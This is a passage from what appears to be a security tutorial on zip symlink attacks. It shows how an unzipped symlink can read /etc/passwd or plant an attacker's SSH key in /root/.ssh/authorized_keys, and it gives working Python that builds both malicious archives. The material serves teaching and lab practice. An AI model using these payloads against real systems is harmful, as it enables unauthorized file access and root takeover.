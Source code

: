 Now our zip contains a symlink directory! Let's go through what happens when this file is unzipped by a vulnerable app.

First, `dirlink` is decompressed and a symlink is created, pointing to `/root/.ssh/`. Next, the app tries to decompress `dirlink/authorized_keys`, which—if the app follows symlinks—gets written to `/root/.ssh/`.

Tada! We've just shown another way to achieve arbitrary file write.

Let's see what the filesystem looks like now.

```text
/
├── app/
│	└── uploads/
│	    └── dirlink        -> /root/.ssh/
└── root/
    └── .ssh/
		└── authorized_keys
```

{% alert "success" %}
**Put it into Practice**: If you're itching to try out Zip Slip and zip symlink attacks, feel free to try the [exercises I've uploaded on GitHub](https://github.com/TrebledJ/attack-of-the-zip).
{% endalert %}


#### DIY: Build your own Zip Symlink Payload!

{% details "With Python" %}
Like before, we can use Python to generate zip symlink payloads. We'll need some extra massaging with `ZipInfo` though.

```python
# evil-link-file.zip
# └── passwd.txt         -> /etc/passwd
with zipfile.ZipFile("evil-link-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  # This creates a file symlink named `passwd.txt` which links to `/etc/passwd`.
  info = zipfile.ZipInfo("passwd.txt")
  info.create_system = 0 # Linux => 0. Windows => 3.
  info.external_attr = (stat.S_IFLNK | 0o777) << 16 # File attributes.
  zip.writestr(info, "/etc/passwd")  # /etc/passwd is the file we want to read.
```

To construct a dir symlink attack, we change the path in `zip.writestr` to a directory. We also use `zip.write` to add a source file.

```python
# evil-link-dir.zip
# └── dirlink/           -> /root/.ssh/
#     └── authorized_keys
with zipfile.ZipFile("evil-link-dir.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  info = zipfile.ZipInfo("dirlink")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/root/.ssh/")

  # Add an file from our filesystem. (Not a symlink.)
  zip.write("my-ssh-key.pub", "dirlink/authorized_keys")
```
